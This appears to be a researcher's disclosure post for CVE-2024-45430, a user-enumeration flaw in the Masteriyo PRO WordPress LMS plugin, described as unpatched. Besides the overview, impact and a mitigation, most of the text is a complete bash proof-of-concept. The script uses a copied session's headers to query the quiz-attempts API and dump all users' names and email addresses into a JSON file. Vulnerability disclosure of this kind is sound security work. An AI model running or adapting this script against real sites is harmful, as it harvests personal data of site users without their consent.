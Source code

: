 ```yaml
---
title: User Enumeration Vulnerability in Masteriyo (CVE-2024-45430)
author: meyer
date: 2024-08-30 03:55:00 -0500
categories: [Cybersecurity]
tags: [cve, masteriyo, wordpress, plugin]
pin: true
---
```


## Overview

The Masteriyo PRO - LMS for WordPress plugins contain a vulnerability that allows arbitrary user enumeration without administrative privileges. As of the publication date, this issue remains unresolved, affecting all available versions (<=2.13.3).

## Technical Details

The Quiz Attempts functionality enables user enumeration, as both the administrative panel and the regular user dashboard use the same API endpoint that does not validate whether the user is an administrator or not. This means that any user can view the attempts of all other users. The affected route is /wp-json/masteriyo/v1/quizes/attempts/?page=1&per_page=10, where manipulating the arguments and formatting the output allows enumerating all users who have taken quizzes.

![quiz-attempts](/assets/img/dashboard-quiz-attempts.png)
_Normal behavior_

![quiz-attempts-fail](/assets/img/dashboard-quiz-attempts-fail.png)
_Using the filter_

![quiz-attemps-object](/assets/img/quiz-attempts-object.png)
_Another user object_

## Impact

By exploiting this vulnerability, an attacker with a regular user account can access sensitive user information, such as display names, first names, last names, and email addresses, without the need for an admin account.

## Mitigation

Disabling the quiz attempts page for users is the unique solution for now.

![mitigation](/assets/img/mitigation.png)
_WordPress Admin Panel_

## Exploit

```bash
#!/bin/bash

# CVE: CVE-2024-45430
# PoC Script
# Author: Meyer Pidiache <meyer-pidiache>
# Description: This script is a proof of concept for CVE-2024-45430.
# Prerequisites:
# - Headers file for HTTP requests (default 'headers.txt').
# Usage:
#   ./script.sh -u <URL of the API endpoint> -h <headers file> -o <users output file>
# Example:
#   ./script.sh -u http://localhost:8080/wp-json/masteriyo/v1/quizes/attempts -h headers.txt -o users.json
# Notes:
#   To obtain the headers from any request with an active session:
#   Browser -> Developer Tools -> Network -> Request -> Right-click -> Copy value -> Copy request headers.

# Colors and formatting for CLI output
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
RED='\033[0;31m'
BLUE='\033[0;34m'
BOLD='\033[1m'
NC='\033[0m' # No color

# Function to display usage
show_usage() {
  echo -e "${YELLOW}Usage: $0 -u <URL of the API endpoint> -h <headers file> -o <users output file>${NC}"
  exit 1
}

# Process arguments
while getopts ":u:h:o:" opt; do
  case $opt in
    u) BASE_URL="$OPTARG" ;;
    h) HEADERS_FILE="$OPTARG" ;;
    o) USER_FILE="$OPTARG" ;;
    \?) echo -e "${RED}[!] Invalid option -$OPTARG${NC}" >&2; show_usage ;;
    :) echo -e "${RED}[!] Option -$OPTARG requires an argument${NC}" >&2; show_usage ;;
  esac
done

# Check that the base URL was provided
if [ -z "$BASE_URL" ]; then
  echo -e "${RED}[!] You must provide the Base URL as an argument.${NC}"
  show_usage
fi

# Use default values if no files were provided
HEADERS_FILE="${HEADERS_FILE:-headers.txt}"
USER_FILE="${USER_FILE:-users.json}"

# Read headers from file and exclude lines that start with "GET", "POST", etc.
HEADERS=()
while IFS= read -r line; do
  if [[ "$line" != *HTTP* ]]; then
    HEADERS+=('-H' "$line")
  fi
done < "$HEADERS_FILE"

# Verify if the headers are valid by making a test request
echo -e "${BLUE}[*] Verifying headers...${NC}"
test_response=$(curl -s -o /dev/null -w "%{http_code}" --compressed "${BASE_URL}?page=1&per_page=1" "${HEADERS[@]}")

if [ "$test_response" -ne 200 ]; then
  echo -e "${RED}[!] The headers are invalid or the URL is not accessible.${NC}"
  echo -e "${YELLOW}[!] Please check the headers file or the provided URL.${NC}"
  exit 1
fi

# Check if the users file exists, if not create it as an empty array
if [ ! -f "$USER_FILE" ]; then
  echo "[]" > "$USER_FILE"
  echo -e "${YELLOW}[!] File $USER_FILE created as an empty array.${NC}"
fi

echo -e "${BLUE}[*] Retrieving the total number of attempts...${NC}"
response=$(curl -s --compressed "${BASE_URL}?page=1&per_page=1" "${HEADERS[@]}")

if [ -z "$response" ]; then
  echo -e "${RED}[!] The response from the first request is empty.${NC}"
  echo -e "${YELLOW}[!] Request: curl --compressed \"${BASE_URL}?page=1&per_page=1\" \"${HEADERS[@]}\"${NC}"
  echo -e "${BLUE}[!] Response: ${BOLD}$response${NC}"
  exit 1
fi

total_attempts=$(echo "$response" | jq -r '.meta.total')

if [ -z "$total_attempts" ] || [ "$total_attempts" -le 0 ]; then
  echo -e "${RED}[!] Failed to retrieve the total number of attempts.${NC}"
  echo -e "${BLUE}[!] Response: ${BOLD}$response${NC}"
  total_attempts=10
fi

echo -e "${GREEN}[*] Total attempts to investigate: $total_attempts${NC}"

echo -e "${BLUE}[*] Investigating attempts...${NC}"
response=$(curl -s --compressed "${BASE_URL}?page=1&per_page=${total_attempts}&_locale=user" "${HEADERS[@]}")

if [ -z "$response" ]; then
  echo -e "${RED}[!] The response from the second request is empty.${NC}"
  echo -e "${YELLOW}[!] Request: curl --compressed \"${BASE_URL}?page=1&per_page=${total_attempts}&_locale=user\" \"${HEADERS[@]}\"${NC}"
  exit 1
fi

existing_ids=$(jq -r '.[].id' "$USER_FILE")

if [ ${#existing_ids[@]} -gt 0 ]; then
  echo -e "${BLUE}[*] Saving user information...${NC}"

  # Use an associative array to store existing IDs
  declare -A id_map
  for id in $existing_ids; do
    id_map["$id"]=1
  done

  echo "$response" | jq -c '.data[] | .user' | while IFS= read -r user; do
    id=$(echo "$user" | jq -r '.id')

    if [[ -z "${id_map[$id]}" ]]; then
      # Add user to the file
      jq --argjson user "$user" '. += [$user]' "$USER_FILE" > "${USER_FILE}.tmp" && mv "${USER_FILE}.tmp" "$USER_FILE"
      id_map["$id"]=1

      useremail=$(echo "$user" | jq -r '.email')
      echo -e "${GREEN}[*] User saved: ${BOLD}$useremail${NC} (ID: $id)"
    fi
  done

else
  echo -e "${YELLOW}[*] No users found.${NC}"
fi

echo -e "${BLUE}[*] Operation completed.${NC}"
```

![exploit](/assets/img/exploit.png)
